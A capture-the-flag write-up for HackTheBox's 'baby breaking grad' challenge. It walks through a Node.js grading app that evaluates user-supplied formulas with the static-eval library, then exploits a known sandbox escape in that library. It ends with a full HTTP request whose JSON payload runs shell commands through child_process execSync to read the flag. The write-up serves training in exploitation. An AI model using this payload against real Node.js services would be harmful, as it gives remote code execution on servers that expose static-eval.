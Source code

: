 # baby breaking grad

Completed: Yes
Platform: HackTheBox

You have one button, which sends JSON data and you receive the result of the exam or something. You have also source code. Let's check it.

```jsx
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });

        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

evaluate function seems similar to eval, but it is not. It is different. And if you look at the imports, you'll find static-eval inclusion, which is what we need to complete the challenge. The program is simple. Just checks the name and calculates the given values, you can prove it with this code:

```jsx
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

You either specify the formula yourself or the program will specify it itself. Also, you can see if statement with two conditions, first checks if your name includes some names, and second checks if you pass or not based on the formula and values you will give in JSON data. Thus, if you specify a different name from Baker or Purvis, and then you specify a formula with the values of your choice, you maybe will pass. But this case will not give you a flag. From source code, you can find out that the flag contains on the machine and you have to get it through some gained access or code execution. That's why I talked about `evaluate` above. Just find the source code of the module or what is it (I'm not familiar with JS in detail). [https://github.com/browserify/static-eval](https://github.com/browserify/static-eval). If you check its issues and pull requests, you can find this pull request with the example of exploitation: [https://github.com/browserify/static-eval/pull/27/commits/6b7b9609d770948ec9e8a8dedeee5e55891459a3](https://github.com/browserify/static-eval/pull/27/commits/6b7b9609d770948ec9e8a8dedeee5e55891459a3).

At this point, you have all for arbitrary code execution. But if you won't specify a different name from Baker and Purvis, you won't go to the point with the formula. Thus, specify different names and formula keys in JSON. To find out how to execute something in OS through JS check this: [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/). Okay, now you see, that if you specify a different name, you will go to the code with formula, but how to return the value of the flag? That's why you need to try to break this code firstly and see that it return Exceptions. This is the vector. To throw exceptions in JS use `throw new Error()`. Thus, you now have all that you need to successfully exploit the vulnerable module. My request with payload is:

```bash
POST /api/calculate HTTP/1.1
Host: 139.59.166.56:30624
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://139.59.166.56:30624/
Content-Type: application/json
Origin: http://139.59.166.56:30624
Content-Length: 172
Connection: close

{"name":"lol",
"formula":  "(function(){ return `${eval(\"throw new Error(global.process.mainModule.constructor._load('child_process').execSync('cat flag*'))\")}` })()"
}
```